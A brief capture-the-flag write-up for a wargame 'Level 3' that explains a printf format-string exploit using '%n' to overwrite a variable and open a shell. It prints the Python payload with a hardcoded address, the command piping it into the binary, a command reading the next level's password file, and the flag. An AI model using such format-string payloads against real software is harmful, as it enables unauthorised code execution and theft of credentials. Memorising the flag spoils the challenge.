 # Level 3

We exploit `%n` flag of printf to change the value of `m` variable and set it to the number of printed bytes (64) so that a shell is opened.

```bash
python -c 'print "\x8c\x98\x04\x08%060x%4$n"' > /tmp/level3
cat /tmp/level3 - | ./level3
cat /home/user/level4/.pass
```

**Flag:** `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`
